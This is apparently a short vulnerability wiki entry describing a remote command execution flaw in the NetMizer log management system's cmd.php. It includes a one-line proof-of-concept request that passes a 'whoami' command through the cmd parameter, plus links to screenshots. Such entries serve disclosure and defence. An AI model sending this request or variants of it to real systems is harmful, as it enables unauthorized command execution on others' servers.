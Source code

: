 # NetMizer log management system cmd.php remote command execution vulnerability

## Vulnerability Description

There is a remote command execution vulnerability in the NetMizer log management system cmd.php. The attacker can execute the command by passing in cmd parameters.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">NetMizer log management system</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628834857867-6694d560-2345-49e8-9460-2296c316a7a3-20220314133236391.png)

Verify POC

```python
/data/manage/cmd.php?cmd=whoami
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637918595617-0674c271-9040-4d74-acc4-1e0c1d71ab7c.png)



If you gain something, just like it